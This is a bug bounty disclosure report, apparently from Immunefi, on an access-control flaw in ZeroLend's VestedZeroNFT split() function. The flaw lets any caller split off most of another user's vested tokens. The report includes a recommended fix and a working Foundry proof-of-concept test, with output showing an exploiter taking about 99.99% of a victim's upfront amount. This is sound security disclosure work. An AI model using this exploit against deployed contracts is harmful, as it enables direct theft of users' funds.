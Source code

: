
# all NFTs can be stolen by calling VestedZeroNFT::split()

Submitted on Wed Mar 13 2024 05:27:54 GMT-0400 (Atlantic Standard Time) by @EricTee for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29288

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

## Description
## Brief/Intro

Wrong implementation in `VestedZeroNFT::split()` causes users' NFT to be stolen by anyone. Specifically, the problem arises from the `ERC721Upgradeable.sol::_requireOwned` check in `VestedZeroNFT::split()`  which fails to check the caller is the owner of the NFT, allow anyone to split the `pendingAmount` and `upfrontAmount` of any `tokenId` up to 99%.

## Vulnerability Details

In `VestedZeroNFT::split()`:
```
 function split(
        uint256 tokenId,
        uint256 fraction
    ) external whenNotPaused nonReentrant {
        _requireOwned(tokenId);

// REDACTED by erictee
```
the `_requireOwned` check is not implemented correctly. Let's take a look at `ERC721Upgradeable.sol::_requireOwned` in Openzeppelin:
```
 function _requireOwned(uint256 tokenId) internal view returns (address) {
        address owner = _ownerOf(tokenId);
        if (owner == address(0)) {
            revert ERC721NonexistentToken(tokenId);
        }
        return owner;
    }
```
This function only return the address of the NFT owner but never revert if the caller is not the NFT owner. Therefore, anyone can call `VestedZeroNFT::split()` with any `tokenId` and to steal `pendingAmount` and `upfrontAmount` up to 99%.


## Impact Details

Direct theft of any user rewards.

## Recommendation

Consider making the following changes in `VestedZeroNFT::split()`:

```diff
 function split(
        uint256 tokenId,
        uint256 fraction
    ) external whenNotPaused nonReentrant {
--        _requireOwned(tokenId);
++       require(msg.sender == _requireOwned(tokenId), "NFT Owner only!"); 
// REDACTED by erictee
```

## References
https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L234
        
## Proof of concept
## Proof of Concept

* Install foundry.
* Rename the original test folder to `hardhat-test` and create a new folder name `test`.
* Add forge-std module to lib with command: `git submodule add https://github.com/foundry-rs/forge-std lib/forge-std`
* add `remappings.txt` file in `contracts` folder with the following content:

```
@ethereum-waffle/=node_modules/@ethereum-waffle/
@layerzerolabs/=node_modules/@layerzerolabs/
@openzeppelin-3/=node_modules/@openzeppelin-3/
@openzeppelin/=node_modules/@openzeppelin/
@prb/=node_modules/@prb/
@sablier/=node_modules/@sablier/
@uniswap/=node_modules/@uniswap/
@zerolendxyz/=node_modules/@zerolendxyz/
base64-sol/=node_modules/base64-sol/
erc721a/=node_modules/erc721a/
eth-gas-reporter/=node_modules/eth-gas-reporter/
forge-std/=lib/forge-std/src/
hardhat-deploy/=node_modules/hardhat-deploy/
hardhat/=node_modules/hardhat/
ds-test/=lib/forge-std/lib/ds-test/src/
```

* Add `VestedZeroNFT.t.sol` file within test folder with the following content:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {VestedZeroNFT} from "../contracts/vesting/VestedZeroNFT.sol";
import {ZeroLend} from "../contracts/ZeroLendToken.sol";
import {StakingBonus} from "../contracts/vesting/StakingBonus.sol";
import {IVestedZeroNFT} from "../contracts/interfaces/IVestedZeroNFT.sol";
contract VestedZeroNFTTest is Test {
   
    address public admin;
    VestedZeroNFT public vesting;
    ZeroLend public zero;
    StakingBonus public stakingbonus;
    address public bob;
    address public exploiter;

    function setUp() public {
        vesting = new VestedZeroNFT();
        zero = new ZeroLend();
        stakingbonus = new StakingBonus(); //erictee: no need to init here as this is for testing.

        vesting.init(address(zero),address(stakingbonus));
        bob = makeAddr("BOB");
        exploiter = makeAddr("EXPLOITER");

        zero.togglePause(false);

    }

    
    function test_correct() external {
        console.log(address(vesting));
        console.log(address(vesting.zero()));
        console.log(zero.balanceOf(address(this)));
    }
    
    function test_StealAmountBySplitting() external {
        // preparation
        zero.approve(address(vesting), type(uint256).max);
        vesting.mint(
        bob, 
        15e18,   // 15 ZERO linear vesting
        5e18,  // 5 ZERO upfront
        1000,  // linear duration - 1000 seconds
        500,  // cliff duration - 500 seconds
        block.timestamp + 1000,  // unlock date
        false,   // penalty -> false
        IVestedZeroNFT.VestCategory.PRIVATE_SALE // 0
        );  // Same config as typescript testcase.

        vm.warp(block.timestamp + 1000); //fast forward to unlock date.

       (uint256 upfrontBefore, uint256 pendingBefore ) = vesting.claimable(1); // tokenId = 1
       console.log("UPFRONT BOB Before: ", upfrontBefore);
       console.log("PENDING BOB Before: ", pendingBefore);

       vm.startPrank(exploiter);
       vesting.split(1, 1); // tokenId = 1 , fraction =1 

    
       vm.stopPrank();

       (uint256 upfrontExploiter, uint256 pendingExploiter) = vesting.claimable(2); // exploiter owns the tokenId 2 
       console.log("UPFRONT EXPLOITER: ", upfrontExploiter);
       console.log("PENDING EXPLOITER: ", pendingExploiter);



       (uint256 upfrontAfter, uint256 pendingAfter ) = vesting.claimable(1); // tokenId = 1
       console.log("UPFRONT BOB After: ", upfrontAfter);
       console.log("PENDING BOB After: ", pendingAfter);


    }
}
```

* Finally, run the foundry test with :  `forge test --match-test test_StealAmountBySplitting -vv`

Foundry Result:
```
Running 1 test for test/VestedZeroNFT.t.sol:VestedZeroNFTTest
[PASS] test_StealAmountBySplitting() (gas: 656485)
Logs:
  UPFRONT BOB Before:  5000000000000000000
  PENDING BOB Before:  0
  UPFRONT EXPLOITER:  4999500000000000000
  PENDING EXPLOITER:  0
  UPFRONT BOB After:  500000000000000
  PENDING BOB After:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.15ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
